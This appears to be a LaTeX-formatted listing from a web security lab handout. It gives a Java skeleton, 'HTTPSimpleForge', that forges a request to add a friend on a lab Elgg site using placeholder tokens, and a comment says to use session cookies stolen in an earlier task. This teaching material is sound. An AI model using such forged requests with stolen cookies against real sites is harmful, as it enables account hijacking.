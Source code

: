{\footnotesize
\begin{Verbatim}[frame=single]
import java.io.*;
import java.net.*;


public class HTTPSimpleForge {

public static void main(String[] args) throws IOException {

try {
     int responseCode;
     InputStream responseIn=null; 

     String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>
                              &__elgg_token=<<correct_elgg_token_value>>";

	 // URL to be forged.
	 URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?
	                      friend=<<friend_user_guid>>"+requestDetails);

	 // URLConnection instance is created to further parameterize a
	 // resource request past what the state members of URL instance
	 // can represent.
	 HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
	 if (urlConn instanceof HttpURLConnection) {
	 urlConn.setConnectTimeout(60000);
	 urlConn.setReadTimeout(90000);
	 }

	 // addRequestProperty method is used to add HTTP Header Information.
	 // Here we add User-Agent HTTP header to the forged HTTP packet.
	 // Add other necessary HTTP Headers yourself. Cookies should be stolen
	 // using the method in task3.
	 urlConn.addRequestProperty("User-agent","Sun JDK 1.6");

	 //HTTP Post Data which includes the information to be sent to the server.
	 String data = "name=...&guid=..";

	 // DoOutput flag of URL Connection should be set to true
	 // to send HTTP POST message.
	 urlConn.setDoOutput(true);

	 // OutputStreamWriter is used to write the HTTP POST data
	 // to the url connection.
	 OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
	 wr.write(data);
	 wr.flush();
	 
	 // HttpURLConnection a subclass of URLConnection is returned by
	 // url.openConnection() since the url is an http request.
	 if (urlConn instanceof HttpURLConnection) {
	    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
	 
	    // Contacts the web server and gets the status code from
  	    // HTTP Response message.
	    responseCode = httpConn.getResponseCode();
	    System.out.println("Response Code = " + responseCode);
	 
	    // HTTP status code HTTP_OK means the response was
	    // received sucessfully.
	    if (responseCode == HttpURLConnection.HTTP_OK)
	      // Get the input stream from url connection object.
	      responseIn = urlConn.getInputStream();
	    // Create an instance for BufferedReader
	    // to read the response line by line.
	    BufferedReader buf_inp = new BufferedReader(
	    new InputStreamReader(responseIn));
	    String inputLine;
	    while((inputLine = buf_inp.readLine())!=null) {
	       System.out.println(inputLine);
            }
	 }
   } catch (MalformedURLException e) {
        e.printStackTrace();
   }
}
}
\end{Verbatim}
}

